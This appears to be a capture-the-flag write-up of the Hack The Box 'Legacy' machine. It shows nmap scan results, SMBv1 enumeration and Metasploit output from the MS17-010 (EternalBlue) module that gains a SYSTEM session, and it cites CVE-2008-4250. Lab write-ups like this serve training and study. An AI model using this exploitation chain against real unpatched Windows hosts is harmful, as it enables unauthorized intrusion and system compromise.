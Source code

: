 # HTB Legacy

Basic nmap scan:
```
Nmap scan report for 10.10.10.4
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 428.22 seconds
          Raw packets sent: 71567 (3.149MB) | Rcvd: 72996 (2.949MB)
```

Aggressive nmap scan:
```
Nmap scan report for 10.10.10.4
Host is up (0.094s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=3/24%OT=135%CT=1%CU=30409%PV=Y%DS=2%DC=T%G=Y%TM=641E2E
OS:3F%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TS=0)SEQ(SP=105%GCD=1%
OS:ISR=10B%CI=I%II=I%TS=0)OPS(O1=M53ANW0NNT00NNS%O2=M53ANW0NNT00NNS%O3=M53A
OS:NW0NNT00%O4=M53ANW0NNT00NNS%O5=M53ANW0NNT00NNS%O6=M53ANNT00NNS)WIN(W1=FA
OS:F0%W2=FAF0%W3=FAF0%W4=FAF0%W5=FAF0%W6=FAF0)ECN(R=Y%DF=Y%T=80%W=FAF0%O=M5
OS:3ANW0NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=N%T=80
OS:%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=FAF0%S=O%A=S+%F=AS%O=M53
OS:ANW0NNT00NNS%RD=0%Q=)T4(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%
OS:DF=N%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R%
OS:O=%RD=0%Q=)T7(R=Y%DF=N%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=8
OS:0%IPL=B0%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=S%T=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
| smb-os-discovery:
|  OS: Windows XP (Windows 2000 LAN Manager)
|  OS CPE: cpe:/o:microsoft:windows_xp::-
|  Computer name: legacy
|  NetBIOS computer name: LEGACY\x00
|  Workgroup: HTB\x00
|_  System time: 2023-03-30T04:09:27+03:00
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 005056b9113b (VMware)
| Names:
|  LEGACY<00>          Flags: <unique><active>
|  HTB<00>              Flags: <group><active>
|  LEGACY<20>          Flags: <unique><active>
|  HTB<1e>              Flags: <group><active>
|  HTB<1d>              Flags: <unique><active>
|_  \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| smb-security-mode:
|  account_used: guest
|  authentication_level: user
|  challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d00h27m37s, deviation: 2h07m16s, median: 4d22h57m37s

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1  99.75 ms 10.10.16.1
2  99.83 ms 10.10.10.4

NSE: Script Post-scanning.
Initiating NSE at 17:11
Completed NSE at 17:11, 0.00s elapsed
Initiating NSE at 17:11
Completed NSE at 17:11, 0.00s elapsed
Initiating NSE at 17:11
Completed NSE at 17:11, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.98 seconds
          Raw packets sent: 1258 (65.306KB) | Rcvd: 4523 (187.256KB)
```

After looking at the above Nmap scan results, I noticied the old Win XP 2000 OS running on the machine in addition to SMB2 being disabled. I then ran crackmapexec to try to enumerate users and even though I could not enumerate them, it did also confirm the use of SMBv1 which are all indicators of being potentially vulnerable to the eternalblue exploit.

I checked this further with msfconsole and confirmed it is vulnerable.:

```
msf6 auxiliary(admin/smb/ms17_010_command) > run

[*] 10.10.10.4:445        - Target OS: Windows 5.1
[*] 10.10.10.4:445        - Filling barrel with fish... done
[*] 10.10.10.4:445        - <---------------- | Entering Danger Zone | ---------------->
[*] 10.10.10.4:445        - [*] Preparing dynamite...
[*] 10.10.10.4:445        - [*] Trying stick 1 (x86)...Boom!
[*] 10.10.10.4:445        - [+] Successfully Leaked Transaction!
[*] 10.10.10.4:445        - [+] Successfully caught Fish-in-a-barrel
[*] 10.10.10.4:445        - <---------------- | Leaving Danger Zone | ---------------->
[*] 10.10.10.4:445        - Reading from CONNECTION struct at: 0x863e7800
[*] 10.10.10.4:445        - Built a write-what-where primitive...
[+] 10.10.10.4:445        - Overwrite complete... SYSTEM session obtained!
[+] 10.10.10.4:445        - Service start timed out, OK if running a command or non-service executable...
[*] 10.10.10.4:445        - Getting the command output...
[*] 10.10.10.4:445        - Executing cleanup...
[+] 10.10.10.4:445        - Cleanup was successful
[+] 10.10.10.4:445        - Command completed successfully!
[*] 10.10.10.4:445        - Output for "net group "Domain Admins" /domain":

The request will be processed at a domain controller for domain HTB.

[*] 10.10.10.4:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

However, since 5985 port is closed, I could not establish a connection with the changed credentials. However, I found the following CVE also associated with SMBv1 and Windows XP as well.
CVE-2008-4250

I had to revert the machine since I could not establish a connection. After the revert, I successfully executed the module in MSFconsole and was able to find the root and user.txt files.

**###ROOTED!!!###**
